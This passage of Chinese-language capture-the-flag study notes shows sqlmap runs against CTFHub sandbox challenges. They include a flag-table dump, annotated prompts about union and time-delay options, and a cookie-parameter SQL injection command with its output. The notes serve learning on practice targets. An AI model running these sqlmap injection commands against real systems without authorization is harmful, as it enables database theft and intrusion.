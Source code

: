 ```shell
+----------------------------------+

[15:55:58] [INFO] table 'sqli.flag' dumped to CSV file '/Users/xuyi/.local/share/sqlmap/output/challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com/dump/sqli/flag.csv'
[15:55:58] [INFO] fetched data logged to text files under '/Users/xuyi/.local/share/sqlmap/output/challenge-7cd002cfce0bb7e2.sandbox.ctfhub.com'
```

### 其它选项

```shell
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] n

injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] n  // 默认情况下，SQLMap 使用逗号（,）作为 UNION 查询的列分隔符。然而，有些情况下目标数据库可能会对逗号进行限制或过滤，这会影响注入的成功率，通过设置 --union-char 参数，可以指定一个不受限制或过滤的字符来代替逗号作为 UNION 查询的列分隔符，例如，--union-char=1 将使用 ASCII 值为 1 的字符作为列分隔符

[16:16:31] [WARNING] if UNION based SQL injection is not detected, please consider usage of option '--union-char' (e.g. '--union-char=1') and/or try to force the back-end DBMS (e.g. '--dbms=mysql') 

[16:16:33] [INFO] target URL appears to be UNION injectable with 2 columns

injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] n

GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n

do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y  // 优化用于数据库延迟响应的时间值
```

😆 **盲注**是一个字母一个字母的挤出来的

### 进阶（`--level`, `--risk`, `--time-sec=2`）

#### cookie

```shell
(venv) ➜  sqlmap git:(master) python sqlmap.py -u "http://challenge-6a38ed4519e03045.sandbox.ctfhub.com:10800" --cookie "id=1; hint=id%E8%BE%93%E5%85%A51%E8%AF%95%E8%AF%95%EF%BC%9F" --level 2 --dbs

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:18:37 /2023-08-25/

[19:18:37] [INFO] testing connection to the target URL
[19:18:37] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:18:37] [INFO] testing if the target URL content is stable
[19:18:37] [INFO] target URL content is stable
[19:18:37] [INFO] testing if Cookie parameter 'id' is dynamic
do you want to URL encode cookie values (implementation specific)? [Y/n] y
[19:18:42] [INFO] Cookie parameter 'id' appears to be dynamic
[19:18:42] [WARNING] reflective value(s) found and filtering out
[19:18:42] [INFO] heuristic (basic) test shows that Cookie parameter 'id' might be injectable
[19:18:42] [INFO] heuristic (XSS) test shows that Cookie parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks
[19:18:42] [INFO] testing for SQL injection on Cookie parameter 'id'
[19:18:42] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:18:42] [INFO] Cookie parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[19:18:44] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL' 
```